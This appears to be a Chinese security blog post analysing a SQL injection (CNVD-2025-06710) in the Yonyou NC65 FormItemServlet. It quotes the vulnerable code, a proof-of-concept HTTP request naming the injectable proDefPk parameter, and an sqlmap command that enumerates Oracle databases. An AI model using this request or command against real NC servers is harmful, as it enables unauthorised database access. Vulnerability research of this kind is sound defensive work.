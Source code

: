 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU0MTc2NTExNg==&mid=2247492498&idx=1&sn=3ea95ef3ff9e6b9f97bfcd9b2a1a756b

#  用友NC最新SQL注入 | CNVD-2025-06710漏洞分析  
 实战安全研究   2025-07-08 12:30  
  
## 前言  
  
漏洞影响版本：用友NC65  
  
CNVD已知漏洞编号是重复时候给的编号，提交的稍微有些晚就重复了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrax2y09zEsoCepywXvcv0cb7HAklwZTWfFhY5CicnygvV0oTbMVH6Y8vA/640?wx_fmt=png&from=appmsg "")  
  
不过该漏洞代码比较老，猜测现在才有人挖出来是因为代码里面有加载子类的方法，一般师傅可能觉得绕不过就放弃了，我直接照搬一下自己的漏洞分析文章：  
  
https://forum.butian.net/article/750  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 漏洞分析  
  
漏洞所在方法为FormItemServlet，利用POC如下  

```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

  

```
下面是漏洞分析，进入到FormItemServlet
```

  
接口处，方法的完整路径为
```
nc.uap.wfm.action.FormItemServlet
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra09k6dMlibQpIXXPUh79WRz5OJc3mdkD6wIxbbe9qsBdnej3Bra5xmpw/640?wx_fmt=png&from=appmsg "")  
  
该方法的请求路径为前缀+
```
/servlet/getFormItem/
```

  
+对应方法名称  
  
来到doPost方法，完整的代码如下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrayfMetEBscyLLABBnsQx6Vt7pcZia6ic7nMreL29nSde84H030RJEPJ0g/640?wx_fmt=png&from=appmsg "")  

```
@Action(method = &#34;POST&#34;)  
publicvoid doPost() {  
this.response.setCharacterEncoding(&#34;utf-8&#34;);  
this.response.setContentType(&#34;text/html&#34;);  
Writer out = null;  
out = new StringWriter();  
String clazz = this.request.getParameter(&#34;clazz&#34;);  
String pk_prodef = this.request.getParameter(&#34;proDefPk&#34;);  
Map<String, String> map = new HashMap<>();  
if (!StringUtils.isEmpty(clazz)) {  
  SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  
  IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
  WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  
if (flwtypevo != null) {  
String serverClass = flwtypevo.getServerclass();  
    IWfmFormOper formOper = (IWfmFormOper)WfmClassUtil.loadClass(serverClass);  
    map = formOper.getFormFields(formvo, pk_prodef);  
  }   
}   
Document doc = buildXml(map);  
XMLUtil.printDOMTree(out, doc, 0, &#34;UTF-8&#34;);  
print(out.toString());  
}

```

  
可以看到此处post方法接收了两个参数，一个是
```
clazz
```

  
，传入了方法中通过反射加载
```
SuperVO
```

  
类或是他的子类，所以他应该传的是完整的类路径  

```
SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  

```

  
另外一个传参是
```
proDefPk
```

  
，在上一步类加载完成后，进入了
```
WfmFlwTypeQry
```

  
的
```
getFlwTypeVosByProdefPk
```

  
方法中  

```
IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  

```

  
追踪getFlwTypeVosByProdefPk方法，来到代码  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraicNx5lEScxABibQnKY1VaEFb8oBgTVrkdT7DmibI2KPUwfg88vSegjrRA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数被拼接到SQL语句中，造成SQL注入  

```
String sql = &#34; select * from wfm_flwtype where pk_flwtype in(select flwtype from wfm_prodef where pk_prodef='&#34; + prodefPk + &#34;')&#34;;

```

  
好了分析到这已经差不多了，只要找一个
```
SuperVO
```

  
的子类让他正常加载走到SQL注入那一步就行了  
  
全局搜索
```
SuperVO
```

  
，这里我挑了一个子类
```
ProDefBaseVO
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraiaGA9t6L4rzuic9mIYHGnUEoDuxy1J7r4n0MFLHx3AQcodcqd6ib2Y6bA/640?wx_fmt=png&from=appmsg "")  
  
完整路径是
```
nc.uap.wfm.vo.base.ProDefBaseVO
```

  
，下一步构造传参，丢给SQLMAP验证即可  

```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```

  
S  
QLMAP命令如下，指定数据库为Oracle  

```
python sqlmap.py -r 数据包 --dbms=oracle --dbs -p proDefPk

```

  
注入验证  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra67naERDqgn8DgsQqjPocp0Y4t2j2meFuUy2LRIxCmQKSXR8ITaSySQ/640?wx_fmt=png&from=appmsg "")  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
###   
  
